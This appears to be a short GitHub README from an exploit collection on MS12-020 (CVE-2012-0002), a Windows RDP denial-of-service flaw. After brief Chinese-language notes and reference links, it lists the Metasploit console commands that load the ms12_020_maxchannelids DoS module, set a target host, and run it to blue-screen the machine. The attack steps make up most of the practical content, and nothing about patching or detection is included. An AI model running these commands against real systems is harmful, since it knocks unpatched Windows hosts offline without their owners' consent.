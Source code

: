 # MS12-020

Blue Screen of Death 
```
端口：3389
远程桌面协议RDP拒绝访问漏洞(MS12-020)

```

Vulnerability reference:
 * [MS12-020](https://technet.microsoft.com/library/security/ms12-020)
 * [CVE-2012-0002](http://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2012-0002)  

## msf Usage  
[YouTube-MS12-020 RDP Vunlnerability](https://www.youtube.com/watch?v=8FhEK296jPg)  

```
msf > search ms12_020
msf > use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
msf auxiliary(ms12_020_maxchannelids) > set RHOST 192.168.1.35
msf auxiliary(ms12_020_maxchannelids) > run
```

![msf](msf.png)  
![blue-death](blue-death.png)

## References
* [msf利用远程桌面协议RDP拒绝访问漏洞(MS12-020)](http://blog.sina.com.cn/s/blog_4bf0ab590101gsq7.html)
* [cve-2012-0002（ms12-020）深度分析报告](http://max.book118.com/html/2016/0314/37644373.shtm)
* [http://www.7kb.org/524.html](http://www.7kb.org/524.html)